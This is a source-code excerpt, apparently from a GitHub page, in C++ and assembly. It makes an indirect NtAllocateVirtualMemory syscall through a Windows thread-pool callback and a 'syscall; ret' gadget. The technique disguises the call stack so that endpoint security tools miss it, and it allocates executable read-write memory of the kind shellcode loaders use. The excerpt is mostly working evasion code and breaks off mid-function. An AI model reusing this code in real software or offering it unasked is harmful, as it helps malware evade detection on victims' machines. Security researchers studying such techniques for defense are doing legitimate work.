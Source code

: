 ```c++
    PVOID allocatedAddress = NULL;
    SIZE_T allocatedsize = 0x1000;

    NTALLOCATEVIRTUALMEMORY_ARGS ntAllocateVirtualMemoryArgs = { 0 };
    ntAllocateVirtualMemoryArgs.hProcess = (HANDLE)-1;
    ntAllocateVirtualMemoryArgs.address = &allocatedAddress;
    ntAllocateVirtualMemoryArgs.zeroBits = 0;
    ntAllocateVirtualMemoryArgs.size = &allocatedsize;
    ntAllocateVirtualMemoryArgs.allocationType = (MEM_RESERVE | MEM_COMMIT);
    ntAllocateVirtualMemoryArgs.permissions = PAGE_EXECUTE_READWRITE;
    
    //Syscall number
    ntAllocateVirtualMemoryArgs.ssn = 0x18;

    //Thread creation
    PTP_WORK WorkReturn = NULL;
    ((TPALLOCWORK)pTpAllocWork)(&WorkReturn, (PTP_WORK_CALLBACK)NtAllocateVirtualMemory_Callback, &ntAllocateVirtualMemoryArgs, NULL);
    ((TPPOSTWORK)pTpPostWork)(WorkReturn);
    ((TPRELEASEWORK)pTpReleaseWork)(WorkReturn);

    WaitForSingleObject((HANDLE)-1, 0x5000);

    return 0;
}
```

```c++
section .data

syscall_ret dq 0000000000000000h    ; syscall + ret instruction combination address
add_rsp_ret dq 0000000000000000h    ; add rsp, 0x78 + ret instruction combination address

section .text

global NtAllocateVirtualMemory_Callback
global Search_For_Syscall_Ret
global Search_For_Add_Rsp_Ret

NtAllocateVirtualMemory_Callback:
    sub rsp, 0x78
    mov r15, add_rsp_ret
    mov r15, [r15]
    push r15
    mov rbx, rdx                ; backing up the struct as we are going to stomp rdx
    mov rcx, [rbx]              ; HANDLE ProcessHandle
    mov rdx, [rbx + 0x8]        ; PVOID *BaseAddress
    mov r8, [rbx + 0x10]        ; ULONG_PTR ZeroBits
    mov r9, [rbx + 0x18]        ; PSIZE_T RegionSize
    mov r10, [rbx + 0x24]       ; ULONG Protect
    mov [rsp+0x30], r10         ; stack pointer for 6th arg
    mov r10, [rbx + 0x20]       ; ULONG AllocationType
    mov [rsp+0x28], r10         ; stack pointer for 5th arg
    mov r10, rcx
    mov r15, syscall_ret
    mov r15, [r15]
    mov rax, [rbx + 0x28]
    jmp r15

Search_For_Syscall_Ret:
    ; Search for Syscall + Ret
    mov rdx, rax
    add rdx, 1
    xor rbx, rbx
```